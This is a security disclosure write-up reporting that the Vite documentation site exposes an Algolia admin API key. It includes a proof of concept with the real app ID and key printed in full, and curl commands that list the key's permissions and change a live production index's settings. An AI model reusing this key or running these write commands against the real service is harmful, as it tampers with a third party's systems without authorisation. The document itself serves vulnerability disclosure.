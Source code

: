 The exposed API key is an **admin key** (not just a search key), which provides dangerous permissions that could allow an attacker to perform critical operations, such as modifying data, deleting content, and exposing sensitive information.

## Proof of Concept (PoC)

To demonstrate the severity of this vulnerability safely, here’s a step-by-step proof of concept.

### Step 1: Retrieve the API Key and App ID

Eextract the API key and App ID from either the GitHub repository or the Vite website's page source.

- GitHub Repo: [vite/docs/.vitepress/config.ts](https://github.com/vitejs/docs-ja/blob/585f7431d24be8bbf004378c4dcf90d99835dce1/.vitepress/config.ts#L124)
- Vite Website: Open the [vitejs.dev](https://vitejs.dev/) page and inspect the page source at line 35 to locate the script tag containing the key.

### Step 2: Query the Key’s Permissions

To confirm the level of access this key grants, run the following curl command:

```bash
curl --url 'https://7H67QR5P0A-dsn.algolia.net/1/keys/deaab78bcdfe96b599497d25acc6460e?x-algolia-application-id=7H67QR5P0A&x-algolia-api-key=deaab78bcdfe96b599497d25acc6460e'
```

This returns the permissions for the key, which include the ability to modify or delete data.

### Step 3: Modify Data with the API Key

To safely verify that the key can perform write operations, run the following command to update the settings of the `vitejs` index:

```bash
curl --url https://7H67QR5P0A-1.algolianet.com/1/indexes/vitejs/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: deaab78bcdfe96b599497d25acc6460e' \
  --header 'x-algolia-application-id: 7H67QR5P0A' \
  --data '{"highlightPreTag": "SecurityTestingHotanyaR"}'
```


| ![Modify Data](/images/vitePUT.png) |
|:--:|
| Data Injected Into An Existing Tag |

This command modifies the `highlightPreTag` setting, adding a custom tag `SecurityTestingHotanyaR`. 
